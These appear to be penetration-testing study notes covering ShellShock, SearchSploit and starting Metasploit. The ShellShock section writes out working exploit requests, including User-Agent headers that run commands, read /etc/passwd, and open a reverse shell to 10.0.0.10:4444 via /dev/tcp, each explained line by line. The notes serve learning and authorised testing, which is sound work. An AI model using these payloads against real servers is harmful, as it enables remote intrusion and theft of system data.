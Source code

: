 ### ShellShock

Bash does not sanitize headers before loading them as environment variables. This means it loads whatever value is sent in the header. For example, the request below results in `HTTP_USER_AGENT` being set to `() { :;};`. This is cryptic, but in vulnerable versions of Bash, this creates a function that does nothing.

```bash
GET /index.html HTTP/1.1
Host: example.com
User-Agent: () { :;};
Connection: keep-alive
```

Therefore, if you update the request above to the below, the server will run `echo "haxxed"`.

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```
This allows you to execute arbitrary code on the server, including commands that open TCP connections back to your machine.

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c "cat /etc/passwd"
  Connection: keep-alive
  ```
#### ShellShock Payload to Open a Shell Breakdown
```bash
# Here is a Shellshock Payload Example
User-Agent: () { :;};echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"`.
```
  - `User-Agent: () { :;};` exploits Shellshock by creating a function. The code after gets executed by the shell.
  - `echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"`:
  - `/bin/bash -i >& /dev/tcp/10.0.0.10/444` means "Run a new Bash shell in interactive mode. Send std error and standard output to `10.0.0.10:4444` through a TCP connection.
  - `0>&1` means "Read standard input (`0`) to this new shell through the TCP connection."
### SearchSploit
SearchSploit allows you to search all of the exploits that you have in Kali Linux and even view their source code.
#### Search for exploits
```bash
# Search for apache exploits and view the first 10 findings.
searchsploit apache | head
```
#### View Source Code
```bash
# View the source code for the 29316.py exploit
searchsploit -x exploits/php/remote/29316.py
```
### MetaSploit
MetaSploit is an automated explanation tool. In the professional pentesting world, is has a bit of a stigma because it allows users to run exploits without fully understanding what they are doing. Many Job Interviews and Pentesting Engagements will not allow the use of Metasploit. Before using Metasploit, it is important to understand what exploits you are running and what they do.
#### Start Metasploit
```bash
# Start the database
msfdb init
# Start msfconsole
```